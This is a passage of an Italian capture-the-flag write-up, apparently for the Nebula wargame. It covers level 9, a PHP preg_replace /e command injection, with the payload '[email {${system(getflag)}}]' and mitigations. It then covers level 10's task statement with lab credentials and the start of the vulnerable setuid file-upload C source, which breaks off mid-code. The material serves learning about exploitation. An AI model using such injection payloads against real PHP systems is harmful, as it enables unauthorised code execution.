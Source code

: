 ### Tipo Vulnerabilità

command injection perchè /e nella funzione pre_replace è vulnerabile perche esegue eval(comando)

### Descrizione Exploit

[email {${system(getflag)}}]

### Mitigazioni

---

Non usare /e in preg_replace(), e utilizzare versione aggiornate di PHP.

## Level 10 FATTO

### Consegna

> The SETUID binary at **/home/flag10/flag10** binary will upload any file given, as long as it meets the requirements of the *access()* system call.
> 
> 
> To do this level, log in as the **level10** account with the password **level10**. Files for this level can be found in /home/flag10.
> 

### Tipo Vulnerabilità

### Descrizione Exploit

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);
```